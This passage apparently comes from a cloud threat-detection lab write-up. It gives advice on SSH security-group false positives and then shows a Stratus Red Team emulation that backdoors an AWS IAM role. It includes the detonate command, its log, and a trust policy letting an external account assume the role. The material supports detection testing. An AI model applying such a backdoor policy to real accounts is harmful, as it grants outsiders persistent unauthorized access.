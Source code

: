 In a production environment, this API call may be legitimate as port 22 allows for remote administration. Thus, in order to reduce the amount of false-positives, it is important to ensure that security groups are configured securely and that only necessary ports are opened. This includes closing unnecessary inbound ports, such as port 22 (SSH) if it is not needed, and implementing strong authentication measures, such as multi-factor authentication, to protect against unauthorized access.

### Backdoor an IAM Role
This attack emulates an adversary establishing persistence by backdooring an IAM role policy with a malicious policy:

```bash
└─$ stratus detonate aws.persistence.iam-backdoor-role
2025/10/07 23:57:17 Checking your authentication against AWS
2025/10/07 23:57:25 Warming up aws.persistence.iam-backdoor-role
2025/10/07 23:57:25 Initializing Terraform to spin up technique prerequisites
2025/10/07 23:57:44 Applying Terraform to spin up technique prerequisites
2025/10/07 23:57:59 IAM role stratus-red-team-backdoor-r-role ready
2025/10/07 23:57:59 Backdooring IAM role stratus-red-team-backdoor-r-role by allowing sts:AssumeRole from an external AWS account
2025/10/07 23:58:01 Update role trust policy with malicious policy:
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```
![iam-backdoor-role](./screenshots/iam-backdoor-role.png)

